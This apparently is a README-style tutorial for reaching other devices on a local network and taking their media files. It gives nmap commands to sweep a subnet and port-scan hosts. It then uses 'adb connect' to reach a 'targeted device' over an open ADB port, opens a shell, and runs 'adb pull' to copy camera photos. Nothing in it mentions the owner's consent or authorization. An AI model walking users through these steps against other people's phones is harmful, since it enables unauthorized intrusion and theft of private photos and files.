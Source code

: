 # Access any media form the devices that is connected within your network

## Step 1
 * Install Nmap into your system 👉 [Nmap](https://nmap.org/)
 * Check that Nmap is installed in your system by running the command in powershell
 ```bash
 nmap --version

```
 ## Step 2
 * Search the devices that is connected in that network by running this command
 ```bash
  nmap -sn 192.168.1.0/24
  ```
 * You will see the list of devices with the mac and ip address along with the manufacturer company name

 ## Step 3 
 * Now this step is important 
 ```bash
 nmap -p- 192.168.1.0/24
 ```
 * The above command is a bit time taking process cause it is going to list all the open port of that devices which is connected to that network i'm not recomend you to do this *instead* Target the divece by their ip address to see the open port of that device so to do that run this command
 ```bash
 nmap -p- <device-ip-address>
 ```
 ## Step 4
 * Once you get the open port number of that device along with ip Now it's time to connect with it by this command
 ```bash
adb connect <ip-address>:<port>
```
* ✔ Congratulations if connected now it's time to swim in the targeted device by this command
```bash
adb shell
```
* Run this command to change the current directory 
```bash
cd /storage/emulated/0/
```
* Now list the folders by `ls` command
* It's time to get some file from the targeted device to do that first exit from the current directory by `exit` command after that change the directory where you want to store that data by `cd` command now it's time to pull the deta so to do that run this command, now this is just for the example but it's work as your

```bash
adb pull /storage/emulated/0/DCIM/Camera/IMG_20241229_212817.jpg
```
* To see the file which you have retrive check the directory in the file manager where you have run the above command
* 🎉 Success!
## Summary  

This guide provides a step-by-step process to access and retrieve media files from devices connected to your local network. Below is an outline of the steps:  

1. **Install Nmap**  
   - Install Nmap and verify the installation by running `nmap --version`.  

2. **Scan Network**  
   - Scan your network to identify connected devices with `nmap -sn 192.168.1.0/24`.  
   - Find open ports on a specific device using `nmap -p- <device-ip-address>`.  

3. **Connect via ADB**  
   - Use the `adb connect <ip>:<port>` command to connect your system to the target device.  

4. **Explore Device Storage**  
   - Access the device's file system using `adb shell`.  
   - Navigate through the storage using basic shell commands like `cd` and `ls`.  

5. **Retrieve Files**  
   - Download files from the device to your system using the `adb pull <device-file-path>` command.  

By following these steps, you can seamlessly connect to devices on your network, browse their storage, and retrieve desired files for further use.  
